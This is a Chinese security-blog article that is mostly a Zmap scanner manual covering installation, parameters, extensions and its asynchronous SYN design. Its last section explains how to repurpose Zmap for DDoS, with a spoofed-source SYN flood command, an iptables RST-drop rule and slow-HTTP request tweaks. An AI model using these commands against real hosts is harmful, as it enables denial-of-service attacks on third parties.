



# Zmap 详细用户手册和 DDOS 的可行性 

2013/08/23 11:52 | [livers](http://drops.wooyun.org/author/livers "由 livers 发布") | [工具收集](http://drops.wooyun.org/category/tools "查看 工具收集 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

Zmap 是美国密歇根大学研究者开发出一款工具。在第 22 届 USENIX 安全研讨会，以超过 nmap 1300 倍的扫描速度声名鹊起。相比大名鼎鼎的 nmap 全网扫描速度是他最大的亮点。在千兆网卡状态下，45 分钟内扫描全网络 IPv4 地址。

### 安装：

#### 64 位版本

Debian/Ubuntu 系列

```
Step1: sudo apt-get install libgmp3-dev libpcap-dev gengetopt
Step2: wget https://github.com/zmap/zmap/archive/v1.0.3.tar.gz
Step3: tar –zxvf v1.0.3.tar.gz
Step4: cd zmap-1.0.3/src
Step5: make && make install 
```

#### 32 版本 （zmap 主页只说适用于 64 位 linux,这里用 BT5r3 32 位同样安装成功,建议还是尽量选用 64 版本的）

Debian/Ubuntu 系列

```
Step1: sudo apt-get install libgmp3-dev libpcap-dev gengetopt
Step2: git clone git://github.com/zmap/zmap.git
Step3: tar –zxvf v1.0.2.tar.gz
Step4: cd zmap-1.0.2/src
Step5: make && make install 
```

Fedora, Red Hat Enterprise Linux, or CentOS 版本：

只把 step2 替换成

```
sudo yum install gmp gmp-devel libpcap-devel gengetopt 
```

如果想使用 redis 用来存储则需要首先安装 Hiredis，并在 step5 中

```
make REDIS=true   (加入此安装选项) 
```

不是以 root 权限运行则需要配置：

```
setcap cap_net_raw=ep /usr/local/sbin/zmap 
```

## 0x01 使用介绍：

* * *

安装完后，可直接调用 zmap

### 1.最简单的调用

```
zmap -B 10M -p 80 -n 100000 -o results.txt 
```

-B 是指的是带宽 -p 端口 -n 扫描多少个目标 -o 输出结果

整句表示利用 10M 带宽扫描 100000IP 地址的端口，并将结果输出到 results.txt 中。

我 BT5 R3 测试时，必须加入-G 参数

```
zmap -B 10M -p 80 -n 100000 -G "01:00:5e:00:00:02" -o results.txt 
```

-G 是指定出口的 mac 地址，必须为网关的实际 mac 地址，否则返回数据找不到信息。

如果扫到 IP 地址开了 80 端口，就会按照下列格式进行保存。

```
115.237.116.119
23.9.117.80
207.118.204.141
217.120.143.111 
```

### 2.用的最多的指令

```
zmap -p 443 -G "00:00:00:00:00:00" 
```

检测全网络 SSL/STL 使用状况，ZMAP 几个研究项目都与此有关。  

可见我使用的扫描全网的所得大约 9 小时 16 分钟，网络为 10MADSL 带宽，ADSL 上行速度只有 100k 左右，导致时间加倍延迟。

### 3.常用参数

```
-p, --target-port=port 
```

指定扫描的目标端口

```
-o, --output-file=name 
```

把结果写入指定文件 -o result.txt

```
-b, --blacklist-file=path 
```

IP 地址黑名单，例如 192.168.0.0/16 表示 192.168.x.x 将不被扫描，默认提供一份 RFC 1918 保留和内网地址供参考，存放位置在`conf/blacklist.conf`

```
zmap -p 443 -G "00:00:00:00:00:00" -b  conf/blacklist.conf

-n, --max-targets=n 
```

最大扫描 IP 地址数量，-n 100 表示总归扫描 100 个 IP 地址。也可指定 –n 0.1%形式，表示扫描除去黑名单列表里面全网段的 0.1%数量的 IP 地址。

```
-N, --max-results=n 
```

最大扫描到结果的 IP 数量，-N 100 表示扫描到 100 个存在的结果就停止。

```
-t, --max-runtime=secs 
```

最大扫描时间，-t 10 表示程序运行 10s 结束。

```
-r, --rate=pps 
```

设置每秒发送包的数量 –r 10000 表示每秒发送 10k 个包。

```
-B, --bandwidth=bps 
```

设置每秒发送包的大小，-B 10M 表示每秒发送 10Mbps 支持单位（GMK）。

```
-c, --cooldown-time=secs 
```

设置数据包发送完之后多长时间开始接受数据（response）,默认 8s，TCP 连接异步接受。

```
-e, --seed=n 
```

设置扫描随机地址的顺序，C 语言中的伪随机种子，指定 定值每次随机扫描的 IP 地址顺序是一样。

```
-T, --sender-threads=n 
```

设置扫描线程。默认是 1，经测试单线程基本是把网络带宽充分利用。

```
-P, --probes=n 
```

设置往每个 IP 发送包的数量，默认为 1。（DDOS 的参数之一）。

```
-d, --dryrun 
```

打印出每个包的内容，非常实用的功能。

```
-s, --source-port=port|range 
```

设置扫描的源端口，可指定范围 –s 30000-50000。（DDOS 的参数之一）。

```
-S, --source-ip=ip|range 
```

设置扫描的源 IP 地址，可指定范围-S 100.100.0.1-200.200.200.200（DDOS 的参数之一）。

```
-G, --gateway-mac=addr 
```

设置网关的 mac 地址，可伪造。（DDOS 的参数之一）

```
-M, --probe-module=name 
```

设置扫描模式，参数 tcp_synscan（默认），icmp_echoscan（ping 扫描），udp（测试速度要逊于前两个），这里可自定义自己的模块，ZMAP 作者后续会增加例如自定义 UDP payload 的选项。（`*udp_send_msg = "GET / HTTP/1.1

"; // Must be null-terminated`）源码里不可直接更改 （1.0.3 版本加入 UDP Data Probes 可进行自定义）

```
-O, --output-module=name 
```

设置结果输出模块，参数 simple_file（默认），extended_file。

Simple_file 模式如下

```
115.237.116.119
23.9.117.80
207.118.204.141
217.120.143.111 
```

Extended File 模式如下

```
response, saddr, daddr, sport, dport, seq, ack, in_cooldown, is_repeat, timestamp
synack, 159.174.153.144, 10.0.0.9, 80, 40555, 3050964427, 3515084203, 0, 0,2013-08-15 18:55:47.681 
```

扫描模块和输出模块都提供了 API ，可自己根据需要添加功能。

```
--quiet 
```

安静状态下运行，不把进度信息打印到屏幕上

```
--summary 
```

输出结果汇总，对研究人员来说 非常有帮助。

## 0x02 三个额外的扩展应用

* * *

### Banner Grab

抓取指纹，简言之抓取 response 为识别类似 SSH，http 401 之类的信息做准备。

这里 examples / banner-grab 目录下

首先 make 生成 banner-grab-tcp

向 http-req 文件写入要发送的数据 (也可以自定义 SSH-req 之类)

如：

```
echo -e -n "GET / HTTP/1.1
Host: %s

" > http-req 
```

（%s 保留，其他可任意构造 HTTP 请求，包括 GET，POST）

这里扩展下 banner-grab-tcp 下的参数

```
-c, --concurent   每次的连接数，最好低于 1000，想要高于 1000 则必须设置 ulimit -SSn 1000000` and `ulimit -SHn 1000000` 突破每个文件最大进程数 1024
-p, --port      连接的端口
-t, --conn-timeout  连接超时时间
-r, --read-timeout  响应超时时间
-v, --verbosity     列取信息详细程度 ，与 sqlmap 类似
-f, --format        输出文件格式 hex，ascii，base64
-d, --data      发送的数据信息 就是前面设置 http-req 
```

源码里 #define MAX_BANNER_LEN 1024 接收的每条返回数据，只接收 1024 字节，根据需要可自行更改。

#### 与 zmap 联合使用

例子

```
zmap -p 80 -N 1000 -o - | ./banner-grab-tcp -p 80 -c 100 -d http-req > http-banners.out 
```

zmap 扫描 1000 个 80 端口开放的 IP 地址，banner-grab-tcp 来扫描这些 IP 地址，扫描请求内容通过 http-req 可自定义 .

### forge-socket

与 Banner Grab 功能一样，参数也类似，不再重复。

主要是安装方式不同

要先安装下列驱动

```
git clone git@github.com:ewust/forge_socket.git
cd forge_socket
make
sudo insmod forge_socket.ko（以底层驱动方式 比 Banner Grab 效率高一些） 
```

并且用 iptables 阻止发 rst 包

```
iptables -A OUTPUT -p tcp -m tcp --tcp-flags RST,RST RST,RST -j DROP 
```

### UDP Data Probes

1.03 版本加入

详细的测试 payload 见

[`github.com/zmap/zmap/tree/master/examples/udp-probes`](https://github.com/zmap/zmap/tree/master/examples/udp-probes)

以探测 mssql 的 1434 端口为例：

```
zmap -M udp -p 1434 --probe-args=file:examples/udp-probes/mssql_1434.pkt 
```

pkt 也可自行构造。

格式化配置

利用配置文件 简化命令行输入

```
interface "eth1"
source-ip 1.1.1.4-1.1.1.8
gateway-mac b4:23:f9:28:fa:2d # upstream gateway
cooldown-time 300 # seconds
blacklist-file /etc/zmap/blacklist.conf
output-file ~/zmap-output
quiet
summary 
```

上述指令上面全部有介绍。

很显然，可以通过配置文件更快速配置 zmap.

使用方法：

```
zmap --config=~/.zmap.conf --target-port=443 
```

## 0x03 原理分析

* * *

Know it

首先讲下 TCP 三次握手。

在 TCP/IP 协议中，TCP 协议提供可靠的连接服务，采用三次握手建立一个连接。



可见三次握手存在于发送-应答-发送机制，等待监听的时间势必导致发包速度很慢。

这里 zmap 是发送 SYN，随后发送 RST（重置连接），不存在监听同步操作，清空连接，再继续发下一个数据包。 而对于识别 zmap 把 Ip 地址和端口做了类似 hash 表一样的映射，当数据包返回时（可能是 Syn+Ack，也可能 RST），取出返回数据包里 Ip 和端口地址进行储存的 hash 表里查询，并对应处理记录。 同步变异步高效的基本原因。

## 0x04 发散扩展

* * *

DDoS 的可行性：

作者旨在关注全网的扫描，并未提及相关 DDoS 的信息。

也并未特别提供指向型发包的指令。

下面讨论可能与作者想法相违，希望各位重在技术钻研，而非一些恶意破坏。

指定 ip 段 和 ip 地址

```
-w, --whitelist-file=path 
```

限制只扫描文件中的下列地址或者地址段，例如：

```
222.222.221.82/24   （192.168.1.0-255 ）（可利用种子 –seed 调整从那个 IP 开始） 
```

单个 Ip 地址

```
222.222.221.82/32  （随机找了一个，这里 1.02 版本测试不能直接，需要改 blacklist.c 和 constraint.c 中生成 IP 地址的二叉树的 root 节点一小部分代码） 
```

然后利用

```
-P  10000000 （重复多次发包）
-s  2000-60000 (设置一个大的端口段)
-S  20.20.20.0-200.200.200.200（随机大量 Ip 地址，模拟分布式的 D）
-G  这个伪造 mac （但是收不到数据包）

Zmap –p 80 -P 10000000 -s 2000-60000 -S 20.20.20.0-200.200.200.200 -w attack_url.txt 
```

见下列发送的数据效果，达到预期



可能造成什么样的危害?

可以配置 IP Spoofing，syn flood,land attack, ICMP floods, Application floods 和其他 UDP 全零等多种攻击。

Zmap 的发包速度甚至可以忽略一下 随后发的这个 rst 包。

也可以做得完美一点就是利用 iptables

```
iptables -A OUTPUT -p tcp -m tcp --tcp-flags RST,RST RST,RST -j DROP 
```

把发出去的 RST 包给 drop 掉。

#### 可以再升一下？

毕竟有部分扩展能控制到应用层也是可以进行慢攻击。

Get 类型

```
echo -e -n "GET / HTTP/1.1
Host: %s

" > http-req  替换成
echo -e -n "GET / HTTP/1.1
Host: %s
 " > http-req 
```

Post 类型

可以把源码 sizeof(value) 的值设置一个大的动态数值。 Post 数据设置很小。

### DDoS 流量 +连接数 +畸形包

### 流量基本只能硬防，拼硬件。

### zmap 几乎是最大限度利用网络带宽，10 台 G 口服务器不会损耗多少，如果再利用 DNS 放大流量之类，很恐怖的数字。

Ps ：

Zmap 某些方面和 python 的 scapy 很像。

但 zmap 纯 C 实现，比 scapy 效率要高一些。

以前老是纠结 scapy 随后发送 RST 问题，这里利用 iptables 方式确实是个好方法。

参考其中的源码和相对规范的 API 接口，编写一些模块可以玩出很多花样。

LINK:

[`zmap.io/documentation.html`](https://zmap.io/documentation.html)

[`github.com/zmap/`](https://github.com/zmap/)

**Tags:** [xss](http://drops.wooyun.org/tag/xss), [zmap](http://drops.wooyun.org/tag/zmap)

版权声明：未经授权禁止转载 [livers](http://drops.wooyun.org/author/livers "由 livers 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [闲扯下午引爆乌云社区“盗窃”乌云币事件](http://drops.wooyun.org/papers/382)
*   [Bypass IE XSS Filter](http://drops.wooyun.org/tips/159)
*   [CVE-2012-0053 详解](http://drops.wooyun.org/papers/501)
*   [一次 SWF XSS 挖掘和利用](http://drops.wooyun.org/papers/44)
*   [Short XSS](http://drops.wooyun.org/papers/512)
*   [搭建基于 Suricata+Barnyard2+Base 的 IDS 前端 Snorby](http://drops.wooyun.org/papers/653)